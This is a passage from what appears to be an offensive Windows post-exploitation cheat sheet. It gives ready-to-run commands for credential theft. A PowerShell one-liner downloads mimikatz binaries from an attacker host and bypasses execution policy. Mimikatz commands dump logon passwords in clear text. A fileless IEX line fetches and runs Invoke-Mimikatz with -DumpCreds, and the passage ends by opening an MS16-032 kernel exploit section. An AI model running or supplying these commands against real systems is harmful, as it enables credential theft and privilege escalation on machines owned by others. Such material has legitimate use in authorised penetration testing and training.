 ```
CMD C:\> @"%SystemRoot%\System32\WindowsPowerShell\v1.0\powershell.exe" -NoProfile -InputFormat None -ExecutionPolicy Bypass -Command "(New-Object System.Net.WebClient).DownloadFile(\"http://10.10.10.10/mimidrv.sys\", \"C:\\Users\\Public\\Downloads\\mimidrv.sys\"); (New-Object System.Net.WebClient).DownloadFile(\"http://10.10.10.10/mimikatz.exe\", \"C:\\Users\\Public\\Downloads\\mimikatz.exe\"); (New-Object System.Net.WebClient).DownloadFile(\"http://10.10.10.10/mimilib.dll\", \"C:\\Users\\Public\\Downloads\\mimilib.dll\")"
```

Now, if we dont have an overly interactive shell, we will want to execute Mimikatz without the built in CLI by passing the correct parameters to the executable. We use the log parameter to also log the clear password results to a file (just in case we are unable to see the output).

```
mimikatz log version "sekurlsa::logonpasswords" exit
```

Otherwise we can use the Mimikatz shell to get the passwords:

```
mimikatz.exe
mimikatz # privilege::debug
Privilege '20' OK
mimikatz # sekurlsa::logonpasswords
```

### Running Powershell Mimikatz

The Powershell version is not as frequently updated, but can be loaded into memory without ever hitting the HDD (Fileless execution). This version simply reflectively loads the Mimikatz binary into memory so we could probably update it ourselves without much difficulty.

```
wget https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1
```

Fileless execution of Mimikatz from remotely hosted server:

```
PS C:\> IEX (New-Object System.Net.Webclient).DownloadString('http://10.10.10.10/Invoke-Mimikatz.ps1') ; Invoke-Mimikatz -DumpCreds
```

## Windows Kernel Exploits

### MS16-032

If the remote machine appears to be vulnerable to MS16-032, we can execute a powershell script from a remote server to exploit it.

```
Title      : Secondary Logon Handle
MSBulletin : MS16-032
CVEID      : 2016-0099
Link       : https://www.exploit-db.com/exploits/39719/
VulnStatus : Appears Vulnerable
```
